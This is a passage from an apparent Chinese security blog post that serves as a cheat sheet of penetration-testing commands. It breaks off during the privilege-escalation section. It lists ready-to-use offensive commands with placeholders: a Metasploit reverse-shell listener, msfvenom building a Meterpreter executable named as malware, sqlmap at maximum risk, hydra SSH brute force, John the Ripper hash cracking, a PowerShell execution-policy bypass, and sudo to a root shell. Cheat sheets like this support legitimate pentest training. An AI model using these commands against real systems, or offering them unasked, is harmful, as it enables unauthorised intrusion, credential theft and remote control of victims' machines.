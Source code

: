 #  实战利器 50个渗透攻防命令速查！   
原创 牛叫瘦  HACK之道   2025-01-02 02:00  
  
#### 一、信息收集与分析  
  
1. 1. **nmap -sV -O -A -p- 目标IP**  
  
1. • 这是一个综合的nmap扫描命令，用于发现目标主机的开放端口、服务版本、操作系统类型以及可能的漏洞。-sV  
选项用于检测服务版本，-O  
用于检测操作系统类型，-A  
启用操作系统和服务检测的高级选项，-p-  
表示扫描所有端口。  
  
1. 2. **masscan -p1-65535 -rate=10000 目标IP段**  
  
1. • Masscan是一款高速端口扫描器，能够在短时间内扫描大量IP地址和端口。这个命令以每秒10000个数据包的速度扫描指定IP段的所有端口。  
  
1. 3. **theHarvester -d 域名 -l 500 -b 所有**  
  
1. • TheHarvester是一款信息收集工具，用于收集目标域名的电子邮件地址、子域名和主机名等信息。这个命令搜索与指定域名相关的最多500个结果，并尝试从所有可能的来源（如搜索引擎、DNS查询等）获取信息。  
  
1. 4. **dig +short -x 目标IP**  
  
1. • 使用DIG工具进行反向DNS查询，获取与目标IP地址相关联的域名信息。  
  
1. 5. **curl -I -L -H "User-Agent: 自定义User-Agent" 目标URL**  
  
1. • 通过curl命令发送HTTP HEAD请求，并跟随重定向，同时自定义User-Agent字段，以获取目标Web服务器的响应头信息。  
  
#### 二、漏洞扫描与利用  
  
1. 1. **msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 本地IP; set LPORT 端口号; exploit"**  
  
1. • 在Metasploit框架中，通过命令行方式配置并启动一个监听器，等待来自目标主机的反向连接。这个配置用于Windows系统的Meterpreter有效载荷。  
  
1. 2. **sqlmap -u "目标URL?param=value" --dbms=MySQL --level=5 --risk=3 --batch --random-agent**  
  
1. • 使用sqlmap对目标URL进行SQL注入测试，指定数据库类型为MySQL，设置测试级别为5（最高级别），风险等级为3（高风险），启用批处理模式，并使用随机User-Agent。  
  
1. 3. **hydra -l 用户名 -P 密码字典 -t 线程数 ssh://目标IP**  
  
1. • 使用Hydra工具对目标IP的SSH服务进行暴力破解，指定用户名、密码字典和线程数。  
  
1. 4. **john --wordlist=密码字典 --rules --format=类型 加密哈希**  
  
1. • 使用John the Ripper工具对加密哈希进行破解，指定密码字典、启用规则集、指定哈希格式。  
  
1. 5. **msfvenom -p windows/meterpreter/reverse_tcp LHOST=本地IP LPORT=端口号 -f exe > 恶意软件.exe**  
  
1. • 使用Metasploit的msfvenom命令生成一个Windows反向TCP Meterpreter有效载荷的可执行文件。  
  
#### 三、权限提升与持久化  
  
1. 1. **powershell -ExecutionPolicy Bypass -File 权限提升脚本.ps1**  
  
1. • 在Windows系统中，通过绕过执行策略的方式运行一个权限提升脚本。  
  
1. 2. **sudo -l && sudo -u root /bin/bash**  
  